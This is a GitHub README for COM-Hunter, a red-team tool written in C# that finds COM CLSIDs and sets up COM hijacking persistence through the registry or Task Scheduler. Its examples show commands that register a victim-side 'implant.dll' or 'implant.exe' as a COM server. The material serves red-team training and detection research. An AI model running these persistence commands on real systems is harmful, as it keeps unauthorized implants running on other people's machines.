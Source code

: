 # COM-Hunter

COM Hijacking VOODOO

<p align="center">
  <img width="500" height="400" src="/Pictures/logo2.png"><br /><br />
  <img alt="GitHub License" src="https://img.shields.io/github/license/nickvourd/COM-Hunter?style=social&logo=GitHub&logoColor=purple">
  <img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/nickvourd/COM-Hunter?logoColor=yellow"><br />
  <img alt="GitHub forks" src="https://img.shields.io/github/forks/nickvourd/COM-Hunter?logoColor=red">
  <img alt="GitHub watchers" src="https://img.shields.io/github/watchers/nickvourd/COM-Hunter?logoColor=blue">
  <img alt="GitHub contributors" src="https://img.shields.io/github/contributors/nickvourd/COM-Hunter?style=social&logo=GitHub&logoColor=green">
</p>

## Description

COM-Hunter is a COM Hijacking persistnce tool written in C#.

![Static Badge](https://img.shields.io/badge/.NET-4.8-blue?style=flat&logoSize=auto)
![Static Badge](https://img.shields.io/badge/Version-2.0%20-red?link=https%3A%2F%2Fgithub.com%2Fnickvourd%2FCOM-Hunter%2Freleases)

The following list explains the available modes:

- **Search Mode**: Searches for CLSIDs based on `InprocServer32`, `LocalServer32`, and registry hives `HKLM` and `HKCU`.
- **Classic Persist Mode**: Performs classic COM hijacking persistence using `LocalServer32` or `InprocServer32`.
- **Task Scheduler Mode**: Automatically establishes COM hijacking persistence via Task Scheduler using `LocalServer32` or `InprocServer32`.

## Disclaimer

The authors and contributors of this project are not liable for any illegal use of the tool. It is intended for educational purposes only. Users are responsible for ensuring lawful usage.

## Table of Contents

- [COM-Hunter](#com-hunter)
    - [Description](#description)
    - [Disclaimer](#disclaimer)
    - [Table of Contents](#table-of-contents)
    - [Acknowledgement](#acknowledgement)
    - [Usage](#usage)
    - [Examples](#examples)
    - [References](#references)

## Acknowledgement
 
This project created with :heart: by [@nickvourd](https://x.com/nickvourd) && [@S1ckB0y1337](https://x.com/S1ckB0y1337).

Special thanks to [Marios Gyftos](https://www.linkedin.com/in/marios-gyftos-a6b62122/) for his invaluable assistance during the beta testing phase of this tool.

:information_source: Inspired by the [RTO course](https://courses.zeropointsecurity.co.uk/courses/red-team-ops) from [@zeropointsecltd](https://x.com/zeropointsecltd).

## Usage

```
 ██████╗ ██████╗ ███╗   ███╗      ██╗  ██╗██╗   ██╗███╗   ██╗████████╗███████╗██████╗
██╔════╝██╔═══██╗████╗ ████║      ██║  ██║██║   ██║████╗  ██║╚══██╔══╝██╔════╝██╔══██╗
██║     ██║   ██║██╔████╔██║█████╗███████║██║   ██║██╔██╗ ██║   ██║   █████╗  ██████╔╝
██║     ██║   ██║██║╚██╔╝██║╚════╝██╔══██║██║   ██║██║╚██╗██║   ██║   ██╔══╝  ██╔══██╗
╚██████╗╚██████╔╝██║ ╚═╝ ██║      ██║  ██║╚██████╔╝██║ ╚████║   ██║   ███████╗██║  ██║
 ╚═════╝ ╚═════╝ ╚═╝     ╚═╝      ╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═══╝   ╚═╝   ╚══════╝╚═╝  ╚═╝

                                   Version: 2.0
                             @nickvourd && @S1ckB0y1337
                  ~ Inspired during the RTO course by @zeropointsecltd ~

Usage: COM_Hunter.exe <mode> <options>

[+] Modes:
    search             Search Mode
    persist            Classic Persist Mode
    tasksch            Task Scheduler Mode

[+] Search Mode:
Usage:  COM-Hunter.exe search <CLSID> <options>
    -a, --all                   Search DLL and EXE implementations in HKLM and HKCU
    -i, --inprocserver32        Search DLL implementations in HKLM and HKCU
    -l, --localserver32         Search EXE implementations in HKLM and HKCU
    -m, --machine               Search DLL and EXE implementations in HKLM
    -u, --user                  Search DLL and EXE implementations in HKCU

[+] Classic Persist Mode:
Usage:  COM-Hunter.exe persist <CLSID> <binary_path> <option>
    -i, --inprocserver32        Set DLL implementation
    -l, --localserver32         Set EXE implementation

[+] Task Scheduler Mode:
Usage:  COM-Hunter.exe tasksch <binary_path> <option>
    -i, --inprocserver32        Set DLL implementation
    -l, --localserver32         Set EXE implementation
```

## Examples

:information_source: Search DLL and EXE implementations in HKLM and HKCU:

```
.\COM-Hunter.exe search 01575CFE-9A55-4003-A5E1-F38D1EBDCBE1 -a
```

:information_source: Search EXE implementations in HKLM and HKCU:

```
.\COM-Hunter.exe search "{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" -l
```

:information_source: Advanced search EXE implementations in HKLM:

```
.\COM-Hunter.exe search "{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" -l --machine
```

:information_source: Search EXE and DLL implementations in HKCU:

```
.\COM-Hunter.exe search AB8902B4-09CA-4bb6-B78D-A8F59079A8D5 --user
```

:information_source: Perform classic persistence using DLL implementation:

```
.\COM-Hunter.exe persist AB8902B4-09CA-4bb6-B78D-A8F59079A8D5 C:\Users\victim\Desktop\implant.dll -i
```

:information_source: Perform classic persistence using EXE implementation:

```
.\COM-Hunter.exe persist "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" C:\Users\victim\Desktop\implant.exe --localserver32
```

:information_source: Perform persistence via Task Scheduler using DLL implementation:

```
.\COM-Hunter.exe tasksch C:\Users\victim\Desktop\implant.dll --inprocserver32
```

## References

- [Persistence: “the continued or prolonged existence of something”: Part 2 – COM Hijacking by MDSec](https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-2-com-hijacking/)
- [Abusing the COM Registry Structure (Part 2): Hijacking & Loading Techniques by BOHOPS](https://bohops.com/2018/08/18/abusing-the-com-registry-structure-part-2-loading-techniques-for-evasion-and-persistence/)
- [Userland Persistence with Scheduled Tasks and COM Handler Hijacking by Enigma0x3](https://enigma0x3.net/2016/05/25/userland-persistence-with-scheduled-tasks-and-com-handler-hijacking/)
- [COM Objects Hijacking by Virus Total](https://blog.virustotal.com/2024/03/com-objects-hijacking.html)
